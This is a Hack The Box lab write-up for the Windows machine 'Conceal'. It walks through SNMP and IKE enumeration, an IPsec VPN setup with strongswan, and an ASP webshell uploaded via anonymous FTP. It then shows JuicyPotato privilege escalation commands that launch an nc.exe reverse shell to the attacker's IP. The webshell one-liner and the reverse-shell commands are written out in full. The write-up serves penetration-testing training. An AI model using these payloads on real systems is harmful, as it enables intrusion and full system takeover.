


# Conceal

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Hard |
| **Topics** | UDP Scan SNMP, ISAKMP, VPN IPSec (Using Strongswan (IPSEC/VPN) [ipsec.secret/ipsec.conf]), PSK, Strongswan (IPSEC/VPN), File Upload via FTP (Malicious ASP file) [RCE], SeImpersonatePrivilege [Privilege Escalation], JuicyPotato |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Scan

```bash
sudo nmap -sS -p- --open --min-rate=5000 -Pn -n -vvv 10.10.10.116 -oN AllPorts
```

** No results from TCP Scan **

UDP Scan

```bash
nmap -sU --top-ports 500 --open --min-rate=5000 10.10.10.116 -oN AllPortsUDP
```

Result:

```bash
PORT      STATE         SERVICE           REASON
161/udp   open          snmp              udp-response ttl 127
500/udp   open          isakmp            udp-response ttl 127
```

Note: From the scan above we specified only the top 500 ports most commonly used. 

UDP Version and Script Scan

```bash
sudo nmap -p 160,500 -sUV -n 10.10.10.116 
```

Result: 

```bash
PORT    STATE         SERVICE    VERSION
160/udp open|filtered sgmp-traps
500/udp open          isakmp     Microsoft Windows 8
| ike-version: 
|   vendor_id: Microsoft Windows 8
|   attributes: 
|     MS NT5 ISAKMPOAKLEY
|     RFC 3947 NAT-T
|     draft-ietf-ipsec-nat-t-ike-02\n
|     IKE FRAGMENTATION
|     MS-Negotiation Discovery Capable
|_    IKE CGA version 1
Service Info: OS: Windows 8; CPE: cpe:/o:microsoft:windows:8, cpe:/o:microsoft:windows
```

From the result we can see more information coming from the port 500, we can see a Windows 8 OS running on the machine, also noticed the protocol ISAKMP associated with this port, which is commonly used for Internet Key Exchange (IKE) to manage encryption keys

Let’s first enumerate more the port 161, for this task we can use a tool such as `*onesixtyone*`, which will attempt a brute force attack against the server to determine the community string.

Command: 

```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt {IP} -w 100
```

So, basically we will pass a dictionary that contains the most common community strings for SNMP. 

Execute: 



From the above result we can see the community string `public`, which is a common community found on SNMP services. 

Now, since we have a valid community string, let’s try to enumerate the information from MIB using `snmp-walk`:

Command use: 

```bash
snmp-check IP -c COMMUNITY-STRING
```

Execution: 

```bash
snmp-check 10.10.10.116 -c public
```

Result: 


 From the output we can see a PSK key: `9C8B1A372B1878851BE2C097031B6E43`

Let’s try to crack the hash on [Crackstation](https://crackstation.net/). 


Bingo! We have a clear text password, which also seems to be related to IKE VPN. 

In summary:

PSK: `9C8B1A372B1878851BE2C097031B6E43` = Dudecake1!

---

Now let’s continue with port 500, for this task, we can use our famous Bible a.k.a Hacktricks😄

[500/udp - Pentesting IPsec/IKE VPN](https://book.hacktricks.xyz/network-services-pentesting/ipsec-ike-vpn-pentesting)

 
According to hacktricks, the IPSec configuration can be prepared only to accept one or a few transformations. A transformation is a combination of values. **Each transform** contains a number of attributes like DES or 3DES as the **encryption algorithm**, SHA or MD5 as the **integrity algorithm**, a pre-shared key as the **authentication type**, Diffie-Hellman 1 or 2 as the key **distribution algorithm** and 28800 seconds as the **lifetime**.

Then, the first thing that you have to do is to **find a valid transformation**, so the server will talk to you. To do so, you can use the tool **ike-scan**.

Based on this information, let’s try to enumerate the host using `ike-scan`:

General use: 

```bash
ike-scan [options] [hosts...]
```

Relevant arguments:

```bash
--dport=<p> or -d <p>   Set UDP destination port to <p>, default=500
--verbose or -v         Display verbose progress messages.
-multiline or -M       Split the payload decode across multiple lines.
                       This option makes the output easier to read.
```

Proceed to enumerate the target machine:

```bash
ike-scan -M 10.10.10.116
```

Result:

```bash
Starting ike-scan 1.9.5 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.10.116    Main Mode Handshake returned
        HDR=(CKY-R=dfd36df4ab52b084)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
        VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
        VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
        VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
        VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
        VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
        VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)

Ending ike-scan 1.9.5: 1 hosts scanned in 0.085 seconds (11.77 hosts/sec).  1 returned handshake; 0 returned notify
```

As we can see in the previous response, there is a field called **AUTH** with the value **PSK**. This means that the vpn is configured using a preshared key (and this is really good for a pentester).

The value of the last line is also very important, in this case we have:  `1 returned handshake; 0 returned notify`

Explanation: ***1 returned handshake; 0 returned notify -*** This means the **target is configured for IPsec and is willing to perform IKE negotiation, and either one or more of the transforms you proposed are acceptable** (a valid transform will be shown in the output).

Next step is to determine the Vendor information, for this, we can use again `ike-scan` to try to **discover the vendor** of the device.

```bash
ike-scan -M --showbackoff 10.10.10.116
```

Argument details: 

```bash
--showbackoff[=<n>] or -o[<n>]  Display the backoff fingerprint table.
                        Display the backoff table to fingerprint the IKE
                        implementation on the remote hosts.
```

Result: 

```bash
IKE Backoff Patterns:

IP Address      No.     Recv time               Delta Time
10.10.10.116    1       1675997998.233770       0.000000
10.10.10.116    Implementation guess: Linksys Etherfast
```

Based on the output we can see the vendor device identified as <Linksys>.

This confirms that we are facing a VPN connection. 

# Foothold

After getting the essential information for this machine, we can try to connect to the VPN tunnel using the PSK key previously found. 

PSK: `9C8B1A372B1878851BE2C097031B6E43` = Dudecake1!

For this task we can use `strongswan`, which is an Open-source, modular and portable IPsec-based VPN solution. 

Install strongswan:

```bash
sudo apt install -y strongswan
```

After the installation, 2 files should be created on folder `/etc` related to `ipsec` configurations:

Verify that IPSec files were created:

```bash
ls -ls /etc/ipsec.*
```

Result:


### Edit: ipsec.secrets

Next step is to configure those files with the VPN information. Go to the `/etc` folder, and make the following edits in the `ipsec.secrets` file.

The file should contain the following information: 

```bash
IP of the target machine<space> : <space>PSK<space>"clear text shared key"
```

It should look like this: 


### Edit: ipsec.conf

Now, based on the initial enumeration performed using `ike-scan` we have to edit the file `ipsec.conf` with the information we found and define/create a new tunnel.

For this task, we will use the following template code:

```bash
conn tunnelName

		auto= (ignore | add | route | start ; this specifies what operation, if any, 
           should be done automatically at IPsec startup)
		keyexchange=ike (version of ike - 1 or 2)
		type=(the type of the connection; currently the accepted values are two; 
          tunnel signifying a host-to-host, host-to-subnet, or subnet-to-subnet; 
					transport signifying host-to-host transport mode)
		authby=(type of authentication - psk or secret)
		ike= ( cipher - check the results from ikescan)
		esp= ( cipher - check the results from ikescan)
		left=(ip address of attacker machine - in this case, our kali IP)
		right=(ip address of target machine - in this case, the target IP)
		rightsubnet=(ip address of the target but including the transport type [tcp or udp]) 
```

Note: As a reference for this configuration you can check the offical strongswan documentation: 

[ipsec.conf: conn Reference - ipsec.conf: conn Reference - strongSwan](https://wiki.strongswan.org/projects/strongswan/wiki/ConnSection)

Let’s build our configuration based on the results from Ikescan:



For auto we will use the option start as this option loads a connection and brings
it up immediately.
For keyexchange we will use the ike version 1 as seen on the result from ikescan.
For type we will use transport, as we want a host-to-host encryption
For authby we will use PSK as seen on the result from the ikescan. 
For esp we will use the cipher 3DES along with SHA1, as seen on the result from ikescan. These ciphers are separated by dash line (-). 
For ike we will use again the ciphers 3DES,SHA1, but this time we specified the Diffie-Hellman (DH) group which is modp1024.
For left and right, we just specify the IP from our machine (left) and the target machine (right). 
For rightsubnet again we just specify the IP for the target machine but including the transport type TCP. 

The configuration should look like this: 

```bash
conn mytunnel
       auto=start
       keyexchange=ikev1
       type=transport
       authby=psk
       ike=3des-sha1-modp1024
       esp=3des-sha1
       left=10.10.16.4
       right=10.10.10.116
			 rightsubnet=10.10.10.116[tcp]
```

Then proceed to reset the service for IPsec, and start the module strongswan  (if not running):

```bash
sudo systemctl restart strongswan-starter.service
#and
sudo ipsec start
```

Finally, start the tunnel:

```bash
sudo ipsec up mytunnel
```

We should be able to see a `connection 'mytunnel' established successfully`


This confirms that tunnel is UP.

After configuring successfult the VPN Tunnel between our kali and the target machine, we can start enumerating additional ports that were NOT publicly exposed to us at the beginning. 

Let’s run another nmap scan but this time using the parameter `-sT` as we want a TCP Connect Scan:

```bash
nmap -sT -p- --open --min-rate=5000 -Pn -n 10.10.10.116 
```

From the output we will be able to see additional ports:

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49668/tcp open  unknown
```

We can see for instance, the ports 21, 80 which were not previously exposed on our first scan. 

Now, let’s run a Full TCP Scan and Version Scan using the parameter `-sCVT`:

```bash
nmap -sCVT -p21,80,135,139,445,49668 -Pn -n 10.10.10.116
```

Result:

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49668/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-02-24T03:08:10
|_  start_date: 2023-02-24T02:14:42
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

```

From the new output we can see that FTP allows Anonymous Login, and also we can see the IIS running on port 80, these 2 ports may be correlated.

### Enumerate port 21:

First try to log into the FTP service to see any relevant content: 

Log as Anonymous (with empty password):


Check data:


But it looks like that there are no files/folders available, however, we can check if we have permissions to upload files:

First, create a txt test file:


Then, try to upload the file (remember to set to BINARY mode using <bin>):


Success!! We have permissions to upload files. 

### Enumerate Port 80:

Now, since the server is running a IIS, is it possible that our file uploaded is visible via HTTP Server. 
Let’s verify the HTTP Server (port 80):


We can see the default web page for IIS. 

Commonly, when IIS is installed and there is an FTP server running, we will have a folder called <`upload`> or <`uploads`>, so, let’s try to check if this folder is accessible. 

Check the URL:

```bash
http://10.10.10.116/upload
#or
http://10.10.10.116/uploads
```

> Note: If we don’t find the folder/path, we can enumerate more using wfuzz or gobuster.
> 

Content from: /upload


Nice! We can see our txt file, and also we can check the content.

In summary, we have access to upload files to the FTP, and those files can be accessed via HTTP.

With this in mind, we can now proceed to upload a Webshell and gain remote code execution: 

> Impotant: Since the server is running IIS, we should use only webshell with extension `asp` or `aspx`
> 

First, let’s try to upload a `asp` webshell. For this task it is recommended to have a one liner reverse shell, we can find on Google good examples of one liners, for instance: 


Check the first result, we will see the following one liner and the use mode:


Reverse shell code (one liner)

```bash
<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

Then we just need to put this code into file with extension `.asp` and upload it: 


Now, let’s try to access the file via HTTP:


However, it looks like the server returned an error, but this is because the file doesn’t contain content to display.

Check if we can execute commands adding the parameters `?cmd=command-to-execute`


Success! We have Remote Command Execution. 

Next step will be to generate a payload to have a reverse shell to our kali.

For this we can use the Powershell#3 (Base64) option from: https://www.revshells.com/

Generate the payload and paste it on the URL (make sure your payload is URL encoded):


Have ready a Netcat listener to catch the connection and execute the RCE:


Success! We have now a reverse shell connection. 

# Privilege Escalation

### General System Information:


We can see that the OS is Windows 10 Enterprise.

### Enumerate privileges assigned to the current user


We will see the privilege <`SeImpersonatePrivilege`> which is vulnerable to [JuicyPotato](https://github.com/ohpe/juicy-potato/releases)

### Exploit:

Proceed to download the binary `JuicyPotato.exe`  and transfer the file using Certutil.exe to the target machine, also tranfer the binary `nc.exe`


> Note: I recommend to download the files on path `C:\inetpub\wwwroot` as we have permissions to write files there.
> 

### Execution:

Arguments:

```bash
Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port (could be a random port)

Optional args:
-a <argument>: command line argument to pass to program (default NULL)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})

```

Command: 

```cpp
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.16.4 4443"
```

> Note: For this execution, we’re not going to specify any CLSID. We leave it as default.
> 

After the execution we got this result: 


Looks like it didn’t work, but that’s because of the CLSID that was used. However, we can try to play with different CLSIDs to get the privilege escalation, for this we can refer to the following portal that contains multiple CLSIDs for different Windows versions: 

[](http://ohpe.it/juicy-potato/CLSID/)

As we have verified, this is a Windows 10 Enterprise, hence, we have to try with the CLSIDs for this system version. 


> Important: On the website, we need to look for the CLSIDs that give us access as `NT AUTHORITY\SYSTEM.`
> 

To specify the CLSID we just need to the argument `-c "{CLSID}"`

Let’s grab the first CLSID (for NT AUTHORITY SYSTEM) from the list <`{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`>

New command: 

```bash
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.16.4 4443" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"

```

> Note: It's important to include the CLSID in double quotes.
> 

Execute (be ready to catch the reverse shell with a netcat listener): 


If we have success, we will see the confirmation `[+] CreateProcessWithTokenW OK` at that time.

Done, we got access as `NT AUTHORITY\SYSTEM`


[Owned Conceal from Hack The Box!](https://www.hackthebox.com/achievement/machine/906667/168)